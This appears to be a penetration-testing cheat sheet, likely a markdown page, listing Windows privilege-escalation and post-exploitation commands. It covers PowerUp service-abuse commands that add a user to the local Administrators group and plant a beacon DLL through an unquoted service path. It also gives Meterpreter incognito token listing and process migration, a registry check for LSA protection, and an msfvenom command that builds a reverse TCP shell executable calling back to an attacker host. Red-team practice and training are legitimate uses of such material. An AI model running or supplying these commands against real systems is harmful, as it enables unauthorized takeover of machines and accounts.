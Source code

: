 ## Recon Get ModifiableServiceFile
```
Get-ModifiableServiceFile
```

## PrivEsc Add user to local administrators group
```
Invoke-ServiceAbuse -Name '<VulnerableSvc>' -UserName '<doamin>\<username>'
```

## PrivEsc Exploit vulnerable service permissions
```
Invoke-ServiceAbuse -Name "<VulnerableSvc>" -Command "net localgroup Administrators <domain>\<username> /add"
```

## PrivEsc Exploit an unquoted service path
```
Write-ServiceBinary -Name '<VulnerableSvc>' -Command 'c:\windows\system32\rundll32 c:\Users\Public\beacon.dll,Update' -Path 'C:\Program Files\<VulnerableSvc>'
```

# Meterpreter 
## load incognito
```
load incognito
```

## incognito
```
list_tokens -u
```

## migrate
```
run post/windows/manage/priv_migrate NAME=notepad.exe ANAME=svchost.exe
```

##  Check PPL
```
reg queryval -k "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" -v RunAsPPL
```

## Windows 64bit shell reverse tcp
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
